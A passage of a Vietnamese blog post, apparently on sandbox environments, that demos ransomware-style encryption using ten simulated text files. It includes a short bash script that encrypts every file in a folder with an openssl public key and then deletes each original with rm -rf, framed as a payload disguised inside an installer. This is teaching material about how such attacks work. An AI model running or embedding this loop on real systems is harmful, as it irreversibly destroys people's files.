 ```bash
CPDSYSxRJtvA5AfkmseIZsbakYH/8e1OcNKGHiqqZswnM3QGdb+BZyqchc9PrswI
SOM2QGlX7J6l0MsKl4G/qY//akVeuI9JAxoMdYIPVn62vEBB7CDYOQhP10uH7EQd
UWqfb6nfpkMlBii20MxWckZhkybF9MlaLqzWClhxjseq30l1YM21kxEviT1WPpUN
awIDAQAB
-----END PUBLIC KEY-----

```

{: .box-note}
**Note:** Tôi tạo những script dưới đây để thực hiện demo của mình!

-----------------------------
#### ⚙️ Script encrypt - mã hóa dữ liệu

> *Giả sử đoạn script đã được ngụy trang bên trong một lớp vỏ bọc hoàn hảo và bạn đã tải về máy tính của bạn! Và bạn không ngần ngại thực thi file cài đặt này! Hoặc nó tự động active :)) Và Bùmmm!!!*

```sh
### ⚙️ encrypt.sh
for i in `find . -type f ! \( -name "public.pem" -o -name "encrypt.sh" \)` ;
do 	
	echo ">>>encrypt $i";	
	openssl pkeyutl -encrypt -inkey public.pem -pubin -in $i -out $i.enc;	
	echo remove $i;	rm -rf $i;
done
```

-  Đặt script **encrypt.sh** và **public.pem** trong thư mục chứa 10 tệp tin *.txt mô phỏng data

- Các tệp chứa nội dung **"test encrypt 2"** và **"test encrypt 8"** ...

<div class="post-img-post">
    <img src="/img/2024-04-10-What-Is-a-Sandbox-Environment/encrypt_demo_1.png " loading="lazy">
    <br>
    Cấu trúc thư mục và nội dung tệp dữ liệu
</div>
